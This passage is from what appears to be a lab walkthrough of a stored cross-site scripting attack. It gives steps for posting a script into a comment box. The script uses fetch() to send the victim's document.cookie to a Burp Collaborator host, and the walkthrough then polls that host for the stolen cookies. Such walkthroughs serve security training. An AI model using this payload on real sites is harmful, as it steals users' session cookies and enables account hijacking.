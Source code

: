 **Step2:**

To retrieve session cookies we use
```
<script>

fetch('https://your-burp-collaborator-url', {method: 'POST', body: document.cookie});

</script>
```

**Step3:**

Now we page it in comment box

Now we paste:iwi3m266k2djcj7d4ekedj1tmksbg14q.oastify.com
```
<script>

fetch('https://iwi3m266k2djcj7d4ekedj1tmksbg14q.oastify.com', {method: 'POST', body: document.cookie});

</script>
```

<img src="images/image121.png" alt="third" width="500">

Now we click poll now in collaborator

We have this result

<img src="images/image122.png" alt="third" width="500">

